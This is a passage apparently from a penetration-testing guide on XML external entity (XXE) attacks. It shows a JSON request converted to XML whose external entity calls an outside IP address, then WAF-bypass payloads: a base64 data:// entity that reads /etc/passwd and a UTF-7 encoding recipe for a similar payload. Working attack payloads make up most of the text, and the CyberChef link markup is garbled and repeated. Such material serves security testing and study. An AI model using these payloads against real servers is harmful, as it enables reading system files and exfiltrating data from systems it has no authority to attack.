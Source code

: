 ```markup
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

```markup
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

Another example can be found [here](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## WAF & Protections Bypasses

### Base64

```markup
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

This only work if the XML server accepts the `data://` protocol.

### UTF-7

You can use the \[**"Encode Recipe**" of cyberchef here ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28%27UTF-7%20%2865000%29%27%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) transform to UTF-7.
